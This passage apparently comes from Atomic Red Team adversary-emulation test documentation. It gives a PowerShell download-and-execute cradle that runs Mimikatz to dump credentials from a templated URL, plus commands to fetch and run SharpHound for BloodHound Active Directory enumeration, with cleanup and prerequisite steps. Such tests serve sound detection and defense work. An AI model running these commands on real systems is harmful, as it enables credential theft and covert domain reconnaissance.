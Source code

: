 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```






<br/>
<br/>

## Atomic Test #2 - Run BloodHound from local disk
Upon execution SharpHound will be downloaded to disk, imported and executed. It will set up collection methods, run and then compress and store the data to the temp directory on the machine. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a *BloodHound.zip file.

**Supported Platforms:** Windows


**auto_generated_guid:** a21bb23e-e677-4ee7-af90-6931b57b6350






#### Attack Commands: Run with `powershell`! 


```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
try { Invoke-BloodHound -OutputDirectory $env:Temp }
catch { $_; exit $_.Exception.HResult}
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: SharpHound.ps1 must be located at "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
```
